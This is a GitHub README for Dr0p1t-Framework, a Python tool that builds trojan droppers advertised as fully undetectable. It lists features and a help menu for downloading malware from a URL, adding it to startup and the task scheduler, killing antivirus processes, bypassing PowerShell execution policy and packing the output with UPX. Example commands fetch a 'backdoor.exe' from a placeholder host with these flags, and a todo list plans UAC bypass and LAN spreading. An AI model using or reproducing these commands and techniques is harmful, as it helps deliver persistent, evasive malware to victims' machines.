 # Dr0p1t-Framework (beta version) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)

Have you ever heard about trojan droppers ? you can read about them from [here](https://blog.malwarebytes.com/threats/trojan-dropper/).

Dr0p1t let you create dropper like any tool but this time FUD with some tricks ;)

#Features
- Works with Windows and Linux
- Adding malware after downloading it to startup
- Adding malware after downloading it to task scheduler
- Finding and killing the antivirus before running the malware
- Running a custom (batch|powershell|vbs) file you have choosen before running the malware
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

#Screenshots
##On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
##On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

###Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
###Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
```
#Prerequisites
- Python 3.x( prefered 3.5 )
- Python libraries requirements in requirements.txt

#Installation
First download it by
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
```
if you are on linux and do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:


##Todo
- Python 2 support
- Work on UAC bypass
- Work on spreading on device and may be in lan too
- Injecting dr0pp3r to another program
- More modules

[Stay Tuned](https://github.com/D4Vinci/Dr0p1t-Framework/projects/1)

##Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes.Use it only for work or educational purpose !!!

> Pull requests are always welcomed :)

#Much more features to come!
